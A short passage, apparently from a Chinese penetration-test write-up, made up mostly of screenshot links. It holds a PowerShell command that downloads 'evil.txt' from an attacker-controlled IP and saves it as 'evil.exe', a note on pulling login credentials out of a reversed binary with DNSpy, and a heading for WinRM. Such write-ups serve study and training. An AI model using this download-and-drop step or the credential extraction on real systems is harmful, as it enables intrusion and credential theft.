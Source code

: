 [![](assets/1705974590-8eabea732cdc5ce8eb959c989a2d7574.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223558-644e0b02-b86a-1.png)

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

使用 DNSpy 逆向之后，获取登录用户名和密码。  
接着进行测试用户

[![](assets/1705974590-3a92bd6515e46a6ed51d38dab970dadd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223606-696284c4-b86a-1.png)

[![](assets/1705974590-87661f01535ce12aad09e7d1488d96e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223614-6dab9a16-b86a-1.png)

## WinRM
